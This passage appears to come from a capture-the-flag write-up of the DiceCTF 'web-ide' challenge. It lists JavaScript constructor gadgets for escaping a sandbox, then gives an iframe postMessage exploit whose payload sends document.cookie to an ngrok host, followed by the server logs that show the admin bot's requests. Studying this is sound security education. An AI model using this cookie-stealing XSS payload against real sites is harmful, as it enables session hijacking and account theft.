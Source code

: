 ```javascript
log.constructor('alert()')();
''.match.constructor('alert()')();
eval.constructor('alert()')();
(()=>{}).constructor('alert()')();
[].map.constructor('alert()')();
let t={};t.valueOf.constructor('alert()')();
```

You get the idea.

## First Exploit Attempt

So now we should have arbitrary XSS.  Lets fire up our own local server and ngrok and create an html file to load the sandbox, and send our payload:

```html
<iframe id=sand src=https://web-ide.dicec.tf/sandbox.html></iframe>
<script>
  onload = () => {
    sand.contentWindow.postMessage(`log.constructor('fetch("https://b9be14aa2cf4.ngrok.io/b64/" + btoa(document.cookie));')()`, '*');
  };
</script>
```

When we send to the admin we get two hits on our local server:

```http
00:41:31: GET /dice21/web-ide/exp1.html
        Host: b9be14aa2cf4.ngrok.io
        Upgrade-Insecure-Requests: 1
        User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.0 Safari/537.36
        Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
        Sec-Fetch-Site: none
        Sec-Fetch-Mode: navigate
        Sec-Fetch-User: ?1
        Sec-Fetch-Dest: document
        Accept-Encoding: gzip, deflate, br
        X-Forwarded-Proto: https
        X-Forwarded-For: 2600:1900:2001:b:400::1


00:41:31: GET /b64/
        Host: b9be14aa2cf4.ngrok.io
        User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/89.0.4389.0 Safari/537.36
        Accept: */*
        Origin: https://web-ide.dicec.tf
        Sec-Fetch-Site: cross-site
        Sec-Fetch-Mode: cors
        Sec-Fetch-Dest: empty
        Referer: https://web-ide.dicec.tf/
        Accept-Encoding: gzip, deflate, br
        X-Forwarded-Proto: https
        X-Forwarded-For: 2600:1900:2001:b:400::1
```
